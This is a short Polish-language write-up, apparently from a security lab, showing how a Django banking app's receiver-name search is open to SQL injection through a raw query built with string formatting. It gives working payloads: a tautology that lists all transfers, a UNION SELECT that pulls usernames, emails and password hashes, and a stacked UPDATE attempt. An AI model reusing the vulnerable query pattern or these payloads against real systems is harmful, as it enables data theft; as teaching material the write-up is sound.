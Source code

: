 # SQL-injection wykonywane przy 'Search by receiver name'

Ponieważ zapytanie jest wykonywane przy użyciu metody `.raw()`, możemy w odpowiedni sposób zmanipulować postać formuły wyszukiwania wstawianej do poniższego zapytania
```python
query = "SELECT * FROM bank_transfer
        JOIN auth_user ON bank_transfer.user_id=auth_user.id
        WHERE auth_user.username='{}'
        AND bank_transfer.rec_name='{}'"
        .format(request.user, request.GET.get('search'))
```
1. Aby otrzymac wszystkie przelewy z bazy
```sql
cokolwiek' OR '1'='1
```
2. Aby otrzymac dane uzytkownikow wykonujemy `UNION` dołączając tablicę `auth_user`, jednak żeby otrzymać wynik musimy metodą prób i błędów sprawdzić ile kolumn zwraca lewa część uni. Wtedy musimy dopasować ustawienie pól tak, żeby dane z bazy były w kolumnach, które są wykorzystywane w *Django template* aby zostały wyświetlone w tabeli historii.
```sql
2' UNION SELECT '1', '1', 'USD', email, '1', '1', '1', password, username, '1', '1', '1', '1', '1', '1','1','1' ,'1','1','1','1','1','1','1' FROM auth_user WHERE auth_user.id='1
```
Uzyskujemy w ten sposób login, email oraz dane o haśle dowolnego użytkownika, modyfikując ostatni argument zapytania. Gdyby dane były przechowywane w bazie bez hashowania, otzrymalibyśmy całe hasło użytkownika.
![sql-injection1](./sql-injection1.png)

3. Nawet pomimo użycia funkcji `raw()` do komunikacji z bazą danych, Django oraz interfejs sqlite3 nie pozwolą na wykonanie więcej niż jednego zapytania na raz. Dlatego wysyłając do serwera fragment, wstawiany do zapytania `SELECT` nie jesteśmy w stanie modyfikować bazy. Przykładowy fragment, który mógłby zrealizować taką operację wygląda następująco:
```
2'; UPDATE bank_transfer.is_confirmed='True' WHERE bank_transfer.amount>'1
```
